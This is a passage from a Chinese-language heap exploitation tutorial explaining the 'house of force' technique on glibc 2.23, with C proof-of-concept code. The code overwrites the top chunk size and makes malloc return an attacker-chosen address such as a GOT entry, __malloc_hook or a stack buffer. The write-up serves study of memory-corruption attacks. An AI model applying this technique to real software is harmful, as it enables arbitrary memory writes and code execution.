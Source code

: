 这里用`wiki`的例子，由于堆是低地址到高地址增长，那么可以申请负数地址来申请到更低的地址（例如`malloc@got.plt`）：

```c
int main()
{
    long *ptr,*ptr2;
    ptr=malloc(0x10);
    ptr=(long *)(((long)ptr)+24);
    *ptr=-1;        // <=== 这里把top chunk的size域改为0xffffffffffffffff
    malloc(-4120);  // <=== 减小top chunk指针
    malloc(0x10);   // <=== 分配块实现任意地址写
}
```

也可以通过申请特别大的值来申请到高地址，例如`__malloc_hook`（在`libc`里面）

```c
int main()
{
    long *ptr,*ptr2;
    ptr=malloc(0x10);
    ptr=(long *)(((long)ptr)+24);
    *ptr=-1;                 <=== 修改top chunk size
    malloc(140737345551056); <=== 增大top chunk指针
    malloc(0x10);
}
```

笔者通过一小段代码在`glibc2.23`中实现了`house of force`：

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    long fake_chunk[0x110]; // 最终要是申请到了这里，那就说明攻击成功
    printf("the addr of fake_chunk is %p.\n", fake_chunk);

    long *a = malloc(0x100);                     // 如此一来，chunk a的下一个chunk将会是top chunk
    long *top_chunk = (long *)((long)a + 0x100); // top_chunk在a偏移0x100的地方
    top_chunk[1] = -1; // 将top chunk的大小修改为无限大

    long diff = (long)&fake_chunk[0] - (long)top_chunk; // 计算fake_chunk和top chunk此时相差的距离
    malloc(diff - 0x10);                                // malloc这个距离大小-0x10的chunk就是申请一个大小等于这个距离的，使得top chunk减小这个距离

    long *b = malloc(0x100);                                // 随便申请一个chunk
    printf("the addr of new malloc chunk is %p.\n", b - 2); // 发现申请到的chunk的地址就是fake

    return 0;
}
```
